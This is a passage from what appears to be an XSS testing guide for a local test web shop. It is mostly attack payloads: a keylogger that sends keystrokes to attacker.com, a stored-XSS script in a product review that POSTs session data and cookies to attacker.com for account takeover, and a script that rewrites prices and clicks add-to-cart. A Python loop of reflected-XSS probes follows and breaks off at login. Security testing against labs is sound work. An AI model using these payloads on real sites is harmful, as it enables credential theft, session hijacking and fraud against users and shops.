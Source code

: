 **Keylogger Payload**:
```
http://localhost:8000/catalog/?q=<script>document.onkeypress=function(e){fetch('http://attacker.com/log?k='+e.key)}</script>
```

### 2. Stored XSS Attack - Product Reviews

**Basic Payload**:
```javascript
Title: Great Product!
Content: <script>alert('Stored XSS')</script>
```

**Advanced Payload - Account Takeover**:
```javascript
Title: Amazing!
Content: <script>
fetch('/api/user/session', {credentials: 'include'})
.then(r => r.json())
.then(d => fetch('http://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({session: d, cookies: document.cookie})
}))
</script>
```

**DOM Manipulation**:
```javascript
Title: Best Ever
Content: <script>
document.querySelectorAll('.price').forEach(e => e.textContent = '€0.01');
document.querySelectorAll('.add-to-cart').forEach(e => e.click());
</script>
```

### 3. Stored XSS - Shipping Address

**Payload in Address Field**:
```html
123 Main St<script>alert('Address XSS')</script>
```

## Proof of Concept Scripts

### Automated XSS Testing
```python
import requests

# Test reflected XSS
payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "<svg onload=alert('XSS')>",
    "javascript:alert('XSS')",
    "<iframe src=javascript:alert('XSS')>"
]

for payload in payloads:
    response = requests.get(f"http://localhost:8000/catalog/?q={payload}")
    if payload in response.text:
        print(f"Reflected XSS confirmed with: {payload}")

# Test stored XSS in reviews
session = requests.Session()
# Login first
```